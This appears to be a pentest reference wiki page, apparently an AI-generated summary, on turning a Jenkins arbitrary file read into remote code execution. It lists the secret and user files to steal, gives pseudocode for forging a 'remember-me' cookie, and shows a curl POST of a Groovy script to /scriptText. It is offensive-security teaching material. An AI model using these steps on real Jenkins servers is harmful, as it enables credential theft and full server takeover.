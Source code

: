 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" must be enabled (default setting).
- **Access Levels:** Attacker needs Overall/Read permissions.
- **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  - **Username**
  - **User seed**
  - **Timestamp**
  - **Password hash**

**Secret Key Extraction**

- Extract cryptographic keys used for signing the cookie:
  - **Secret Key:** `$JENKINS_HOME/secret.key`
  - **Master Key:** `$JENKINS_HOME/secrets/master.key`
  - **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calculate Token Expiry Time:**

  ```javascript
  tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Adds one hour to current time
  ```

- **Concatenate Data for Token:**

  ```javascript
  token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
  ```

**MAC Key Decryption**

- **Decrypt MAC Key File:**

  ```javascript
  key = toAes128Key(masterKey)  // Convert master key to AES128 key format
  decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
  if not decrypted.hasSuffix("::::MAGIC::::")
      return ERROR;
  macKey = decrypted.withoutSuffix("::::MAGIC::::")
  ```

**Signature Computation**

- **Compute HMAC SHA256:**

  ```javascript
  mac = HmacSHA256(token, macKey) // Compute HMAC using the token and MAC key
  tokenSignature = bytesToHexString(mac) // Convert the MAC to a hexadecimal string
  ```

**Cookie Encoding**

- **Generate Final Cookie:**

  ```javascript
  cookie = base64.encode(
    username + ":" + tokenExpiryTime + ":" + tokenSignature
  ) // Base64 encode the cookie data
  ```

#### Step 3: Code Execution

**Session Authentication**

- **Fetch CSRF and Session Tokens:**
  - Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  - Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

- **Send a POST Request with Groovy Script:**

  ```bash
  curl -X POST "$JENKINS_URL/scriptText" \
  --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
  --header "Jenkins-Crumb: $CRUMB" \
  --header "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "script=$SCRIPT"
  ```

  - Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

{{#include ../../banners/hacktricks-training.md}}
